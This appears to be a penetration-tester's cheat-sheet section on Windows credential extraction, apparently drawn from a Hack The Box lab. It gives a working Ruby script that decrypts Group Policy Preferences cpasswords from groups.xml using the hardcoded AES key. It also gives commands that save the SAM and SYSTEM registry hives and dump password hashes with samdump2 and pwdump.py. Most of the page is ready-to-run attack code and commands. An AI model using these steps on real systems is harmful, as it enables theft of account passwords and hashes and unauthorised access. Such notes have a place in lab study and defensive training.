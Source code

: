 ## Credentials Extraction
### Decrypt password from GPP PASSWORDS IN GROUPS.XML
https://adsecurity.org/?p=2288
https://pentestlab.blog/tag/cpassword/

- Example path to groups.xml

		\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\

- Once we have the CPassword, the we can crack it with that script (replace the encrypted_data variable with the actual encrypted password).

		require 'rubygems'
		require 'openssl'
		require 'base64'

		encrypted_data = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

		def decrypt(encrypted_data)
		padding = "=" * (4 - (encrypted_data.length % 4))
		epassword = "#{encrypted_data}#{padding}"
		decoded = Base64.decode64(epassword)

		key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"

		aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
		aes.decrypt
		aes.key = key
		plaintext = aes.update(decoded)
		plaintext << aes.final
		pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion
		return pass
		end
		blah = decrypt(encrypted_data)
		puts blah
		
		ruby ./exploit.rb

### DUMP SAM FILE AND CRACK
https://book.hacktricks.xyz/windows/stealing-credentials

- Extract the files(SAM and SYSTEM) from windows/system32/config or from the registry

		reg save HKLM\sam sam
		reg save HKLM\system system

- Use samdump2 to extract hashes

		samdump2 SYSTEM SAM

- OR we can use pwdump.py
https://github.com/Neohapsis/creddump7.git

		pwdump.py /tools/SYSTEM /tools/SAM
